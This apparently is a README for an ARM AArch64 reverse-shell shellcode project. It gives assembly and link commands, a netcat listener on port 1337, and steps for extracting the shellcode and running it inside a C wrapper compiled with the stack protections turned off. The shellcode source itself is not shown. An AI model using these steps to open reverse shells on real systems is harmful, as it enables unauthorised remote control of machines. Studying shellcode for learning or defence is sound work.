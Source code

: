 # ARM-Shellcode
ARM AARCH64 Reverse Shell.

## Note 💡
I am still fixing the ASM code with the prompt to be fully functional and cooperative with the wrapper code. For some reason, I am getting an unbelievable amount of null-bytes within it upon extracting the shellcode. That doesn't appear to happen with `arm-revshell.s`. I will be solving this soon.

# Compiling
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute

Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format.
`objcopy -O binary arm-revshell arm-revshell.bin`

Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object.
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

Start a Netcat Listener:
`nc -lnvp 1337`

Execute the program:
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**

